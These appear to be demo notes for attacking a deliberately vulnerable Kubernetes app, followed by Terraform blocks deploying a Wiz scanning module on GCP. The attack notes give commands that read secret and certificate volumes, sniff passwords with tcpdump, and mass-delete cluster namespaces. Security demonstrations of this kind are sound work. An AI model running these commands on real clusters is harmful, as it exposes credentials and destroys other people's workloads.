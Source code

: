Look for interesting things (secrets, certs, package mgr)
```
mount | grep tmpfs
cat /var/lib/kubelet/pods/2694c56e-1064-4c42-b8e3-2d1b67f03112/volumes/kubernetes.io~secret/cert/ca.crt | openssl x509 -text -noout
yum
```

### Tasky sidecar has NET-ADMIN capability
This allows the container to read/write iptable rules, and sniff traffic with tcpdump.
```
tcpdump -i eth0 dst port 8080 -A | grep password
```

## Notes
Delete other namespaces to show you have cluster-admin privileges
```
./kubectl get ns --no-headers=true | sed "/kube-*/d" | sed "/default/d" | sed "/tasky/d" | awk '{print $1;}' | xargs ./kubectl delete ns
```

## References
* [OWASP Cheatsheets](https://cheatsheetseries.owasp.org/index.html)
* [OWASP Cheatsheets Repo](https://github.com/OWASP/CheatSheetSeries)
* [2023 OSS Security Report](https://go.snyk.io/state-of-open-source-security-report-2023-dwn-typ.html)
* [HackTricksCloud](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes)



NOTES

GCP Outpost
```
module "wiz" {
  source                           = "https://wizio-public.s3.amazonaws.com/deployment-v2/gcp/wiz-gcp-org-terraform-module.zip"
  org_id                           = "OrgID"
  worker_service_account_id        = "wiz-worker-sa@qwiklabs-gcp-02-47b1ef38a1b5.iam.gserviceaccount.com"
  wiz_managed_identity_external_id = "wize62693d906e52cd54369580c867@wiz-disk-analyzer-demo-eu1.iam.gserviceaccount.com"
  serverless_scanning              = true
  data_scanning                    = true
  forensic                         = true
}
```

GCP Standard
```
module "wiz" {
  source                           = "https://wizio-public.s3.amazonaws.com/deployment-v2/gcp/wiz-gcp-org-terraform-module.zip"
  org_id                           = "OrgID"
  wiz_managed_identity_external_id = "wize62693d906e52cd54369580c867@wiz-disk-analyzer-demo-eu1.iam.gserviceaccount.com"
  serverless_scanning              = true
  data_scanning                    = true
  forensic                         = true
}
```